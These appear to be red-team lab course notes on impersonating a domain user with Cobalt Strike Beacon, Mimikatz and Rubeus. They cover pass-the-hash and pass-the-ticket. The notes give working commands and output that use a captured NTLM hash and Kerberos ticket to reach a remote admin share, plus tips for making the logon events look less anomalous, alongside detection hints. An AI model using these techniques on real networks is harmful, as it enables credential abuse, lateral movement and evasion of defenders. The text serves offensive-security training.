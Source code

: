 ```yaml
---
description: 09/17/2025
---
```


# User Impersonation

## Introduction/Motivation

From our initial enumeration and efforts, we know our domain recon that `jking` is a local administrator on multiple computers via his membership of the _**Support Engineers**_ domain group.

We also have credential material for this user in the form of an NTLM hash, AES-256 hash and a Kerberos TGT.

This section demonstrates different techniques in which we can leverage these credentials and use them to access one of the target computers.

There are also several techniques where we don't need credential material directly, but that take advantage of processes that the user is running on a machine we have elevated access on.

{% hint style="info" %}
A common way of testing access to a machine is to list the C drive, as this requires local admin privileges to access.
{% endhint %}

## Pass the Hash

This is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password.

It works by starting a new logon session with a fake identity and then replaces the session information with the domain, username, and NTLM hash provided.

Beacon has a dedicated `pth` command which executes Mimikatz in the background.

{% hint style="warning" %}
This command requires elevated privileges.
{% endhint %}

**First, attempt to list the `C$` share of the `web` machine - this will fail because `bfarmer` is not a local admin there:**

```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

**Next, run the `pth` command with `jking`'s username and NTLM hash:**

```
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c

user	: jking
domain	: DEV
program	: C:\Windows\system32\cmd.exe /c echo 71fb38e2d65 > \\.\pipe\675b08
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
  |  PID  1932
  |  TID  6600
  |  LSA Process is now R/W
  |  LUID 0 ; 7479840 (00000000:00722220)
  \_ msv1_0   - data copy @ 000001F6344B3D20 : OK !
  \_ kerberos - data copy @ 000001F6345BD7C8
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001F6344C6128 (32) -> null
```

<mark style="color:yellow;">We can see that the command Mimikatz runs passes the new credentials over a</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`NAMED PIPE`</mark><mark style="color:yellow;">, which Beacon will then impersonate automatically</mark>.

**We can attempt to list the `C$` share again, which will succeed:**

#### "Dropping" Impersonation

We can use the `rev2self` command afterwards to "drop" impersonation:

```
beacon> rev2self
[*] Tasked beacon to revert token

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

As you can see, we can no longer list the `C$` share since we are no longer impersonating `jking`.

{% hint style="danger" %}
OPSEC Consideration

Two opportunities to detect PTH are the `R/W` Handle to `LSASS`; and looking for the `echo foo > \\.\pipe\bar` pattern in command-line logs.
{% endhint %}

The former is already part of the "_**Suspicious Handle to LSASS**_" saved search.

This time we can see an access mask of `0x1038`. This is a combination of `PROCESS_QUERY_LIMITED_INFORMATION` (`0x1000`), `PROCESS_VM_WRITE` (`0x0020`), `PROCESS_VM_READ` (`0x0010`) and `PROCESS_VM_OPERATION` (`0x0008`).

<figure><img src="../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

The latter can be found via the "_**Suspicious Named Pipe Impersonation**_" search, which queries process events where the arguments contain "`echo`", "`>`" and "`\.\pipe`".

<figure><img src="../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

## Pass the Ticket

This is a technique that allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to, or a new one you create.

Accessing a remote resource will then allow that authentication to happen via Kerberos.

For this, we can leverage the TGT that we extracted from `jking`'s logon session on `Workstation 2`.

The first step is to create a blank, "sacrificial" logon session that we can pass the TGT into.

We do this because a logon session can only hold a single TGT at a time.

If we passed `jking`'s TGT into the LUID for `bfarmer`, it would erase `bfarmer`'s TGT and cause all sorts of authentication issues for the user.

{% hint style="warning" %}
Creating a new logon session and passing tickets into sessions other than your own requires elevated privileges.
{% endhint %}

**`rubeus`' `createnetonly` command will start a new hidden process of our choosing, using the** [**`CreateProcessWithLogonW()`**](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) **API:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : False
[*] Username        : GJB9A2GP
[*] Domain          : VPY1XQRP
[*] Password        : R4ABN1K3
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4748
[+] LUID            : 0x798c2c
```

* As we can see, our new hidden process is `cmd.exe`.

This also creates a new LUID. It will have no tickets inside, so it won't be visible with `triage` just yet.

**The next step is to pass the TGT into this new LUID using the `rubeus`** **`ptt` command. Where the `/luid` is the new LUID we just created and `/ticket` is the base64 encoded ticket we previously extracted:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

[*] Action: Import Ticket
[*] Target LUID: 0x798c2c
[+] Ticket successfully imported!
```

**`rubeus` triage will now show `jking`'s TGT inside this LUID:**

```
 | 0x798c2c | jking @ DEV.CYBERBOTIC.IO    | krbtgt/DEV.CYBERBOTIC.IO                      | 9/1/2022 5:29:20 PM |
```

Lastly, impersonate the process that we created with `createnetonly` using Cobalt Strike's `steal_token` command.

At a minimum, this requires the PID of the target process, in this example is `4748`.

**We will then be able to access the remote machine:**

```
beacon> steal_token 4748

beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 11:02:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     08/31/2022 17:40:32   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     08/30/2022 11:16:24   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     08/30/2022 20:19:27   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/01/2022 07:26:41   DumpStack.log.tmp
 384mb    fil     09/01/2022 07:26:41   pagefile.sys
```

As before, use the `rev2self` to "drop" the impersonation.

**To destroy the logon session we created, simply kill the process with the `kill` command:**

```
beacon> rev2self
beacon> kill 4748
```

`rubeus` triage will no longer show the logon session.

{% hint style="danger" %}
OPSEC Consideration

By default, `Rubeus` will use a random username, domain and password with `CreateProcessWithLogonW`, which will appear in the associated `4624` logon event.  The "Suspicious Logon Events" saved search will show `4624`'s where the `TargetOutboundDomainName` is not an expected value.
{% endhint %}

<figure><img src="../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

We can provide these options on the command line to make the fields appear less anomalous.  The password does not have to be the users' actual password.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123
```

## Overpass the Hash
